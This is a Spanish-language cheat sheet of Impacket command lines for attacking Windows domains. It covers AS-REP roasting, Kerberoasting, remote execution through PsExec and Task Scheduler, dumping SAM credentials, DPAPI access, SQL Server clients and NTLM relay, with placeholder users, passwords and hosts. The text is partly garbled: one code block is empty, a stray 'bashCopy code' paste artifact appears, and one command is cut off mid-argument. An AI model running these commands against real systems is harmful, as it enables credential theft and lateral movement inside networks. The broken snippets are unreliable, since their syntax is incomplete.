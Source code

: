 ### impacket-GetNPUsers:
Descripción: Extrae tickets TGT (Ticket Granting Ticket) sin necesidad de autenticación de contraseña, utilizando el protocolo Kerberos.
```python
impacket-GetNPUsers DOMAIN/USER -dc-ip <domain_controller_ip>
```
### impacket-psexec:
Descripción: Ejecuta comandos en un sistema remoto utilizando el servicio PsExec.
```python
impacket-psexec.py DOMAIN/USER:PASSWORD@TARGET_HOST CMD.EXE
```
### impacket-rpcdump:
Descripción: Realiza una enumeración de RPC en un host remoto.
```python
impacket-rpcdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-secretsdump:
Descripción: Extrae contraseñas almacenadas en la SAM (Security Accounts Manager) de un sistema Windows.
```python
impacket-secretsdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-GetUserSPNs:
enumerar los SPNs asociados a un usuario específico o a todos los usuarios en un dominio.
```python
impacket-GetUserSPNs.py -request <USER>:<PASSWORD> -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USER>
```
### impacket-GetUserSPNs
```python

```
    
2. Obtención del TGS: Una vez que hayas identificado el SPN deseado, puedes solicitar un TGS para ese SPN utilizando `GetUserSPNs.py`.
    
    bashCopy code
    
    `impacket-GetUserSPNs.py <USER>:<PASSWORD> -spn <SPN_TO_TARGET> -dc-ip <DOMAIN_CONTROL`
### impacket-atexec:
Descripción: Permite ejecutar comandos en un sistema remoto utilizando el servicio Task Scheduler (programador de tareas).
```python
impacket-atexec.py DOMAIN/USER:PASSWORD@TARGET_HOST COMMAND
```
### impacket-dpapi:
Descripción: Proporciona herramientas para manipular DPAPI (Data Protection API) en sistemas Windows.
```python
impacket-dpapi.py
```
### impacket-esentutl:
Descripción: Permite interactuar con bases de datos ESENT (Extensible Storage Engine) en sistemas Windows.
```python
impacket-esentutl.py
```
### impacket-getArch:
Descripción: Obtiene la arquitectura del sistema remoto (32 o 64 bits).
```python
impacket-getArch.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlclient:
Descripción: Un cliente interactivo de SQL Server que se puede utilizar para ejecutar consultas SQL y comandos en un sistema remoto que ejecuta SQL Server.
```python
impacket-mssqlclient.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlinstance:
Descripción: Enumera las instancias de SQL Server en un sistema remoto.
```python
impacket-mssqlinstance.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlping:
Descripción: Realiza un ping a un servidor SQL para verificar la disponibilidad.
```python
impacket-mssqlping.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlservice:
Descripción: Enumera los servicios de SQL Server en un sistema remoto.
```python
impacket-mssqlservice.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-ntlmrelayx:
Descripción: Se utiliza para realizar ataques de relé NTLM en redes corporativas.
```python
impacket-ntlmrelayx.py -tf targets.txt
```